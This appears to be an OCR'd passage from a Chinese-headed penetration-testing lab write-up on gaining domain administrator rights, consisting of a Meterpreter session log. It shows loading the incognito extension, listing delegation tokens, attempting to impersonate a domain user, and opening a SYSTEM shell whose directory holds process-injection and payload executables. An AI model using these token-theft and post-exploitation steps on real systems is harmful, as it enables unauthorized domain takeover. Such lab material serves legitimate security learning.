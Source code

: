 ## 获取域管理员权限

meterpreter > sessions 4
[*] Backgrounding session 2...
[*] Starting interaction with 4...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
EVIL\paul
FILE01\Administrator
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token EVIL\paul
[-] User token EVILpaul not found
meterpreter > shell
Process 4108 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\
cd c:\

c:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D2E3-655A

 Directory of c:\

08/28/2021  10:13 PM             6,656 hollow.exe
08/28/2021  10:24 PM             6,144 inject.exe
08/28/2021  10:06 PM             7,168 met.exe
08/28/2021  10:38 PM             7,168 met2.exe
06/24/2020  01:07 AM    <DIR>          PerfLogs
08/28/2021  10:56 PM             6,144 process_inject.exe
06/24/2020  07:24 AM    <DIR>          Program Files
06/24/2020  07:21 AM    <DIR>          Program Files (x86)
06/24/2020  01:48 AM    <DIR>          Users
06/24/2020  01:22 AM    <DIR>          Windows
               5 File(s)         33,280 bytes
               5 Dir(s)   3,873,210,368 bytes free
